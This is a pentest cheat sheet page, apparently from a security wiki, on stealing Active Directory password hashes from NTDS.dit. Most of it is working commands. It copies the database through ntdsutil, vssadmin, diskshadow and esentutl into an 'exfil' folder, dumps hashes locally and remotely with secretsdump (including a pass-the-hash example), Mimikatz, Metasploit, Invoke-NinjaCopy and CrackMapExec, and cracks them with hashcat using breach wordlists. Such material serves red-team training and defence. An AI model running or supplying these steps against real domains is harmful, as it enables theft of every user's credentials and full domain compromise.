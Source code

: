 # NTDS.dit & vshadow

<mark style="color:green;">**The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.**</mark>

#### <mark style="color:green;">The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine (ESE) and is "officially" composed by 3 tables:</mark>

```
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory (you can find the lastet accessed data probably because of the performance impruve by using a cache).

## <mark style="color:red;">Decrypting the hashes inside NTDS.dit</mark>

You will need the following files to extract the ntds :

* <mark style="color:green;">NTDS.dit file</mark>
* <mark style="color:green;">SYSTEM hive (C:\Windows\System32\SYSTEM)</mark>

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller (is different between domain controllers). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM (C:\Windows\System32\config\SYSTEM).

### <mark style="color:orange;">Copying NTDS.dit using Ntdsutil</mark>

Available since Windows Server 2008.

```
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

or run ntdsutil interactivly:

```
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

## <mark style="color:red;">Vshadow</mark>

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that <mark style="color:green;">**you will also need a copy of the SYSTEM file (again, dump it from the registry or use the volume shadow copy trick).**</mark>

```
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### <mark style="color:orange;">**Using vssadmin**</mark>

```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### <mark style="color:orange;">**Using DiskShadow (a Windows signed binary)**</mark>

```
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### <mark style="color:orange;">**Using esentutl.exe**</mark>

**​​**Copy/extract a locked file such as the AD Database

```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

***

## <mark style="color:red;">Extracting hashes from NTDS.dit</mark>

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### <mark style="color:orange;">remote NTDS.dit Dump</mark>

You can also extract them automatically using a valid domain admin user:

```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### <mark style="color:orange;">Metasploit & Mimikatz Modules</mark>

Finally, you can also use the metasploit module:

```
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject
```

### <mark style="color:orange;">PowerSploit module</mark>

```
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### <mark style="color:orange;">CrackMapExec module</mark>

```
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### <mark style="color:orange;">Mimikatz</mark>

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.

This requires administrator access with debug or Local SYSTEM rights.
{% endhint %}

```
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## <mark style="color:red;">**Crack NTLM hashes with hashcat**</mark>

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned ([https://hashes.org/download.php?hashlistId=7290\&type=hfound](https://hashes.org/download.php?hashlistId=7290\&type=hfound))

Collection #1 (passwords from Data Breaches, might be illegal to possess)

```
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)
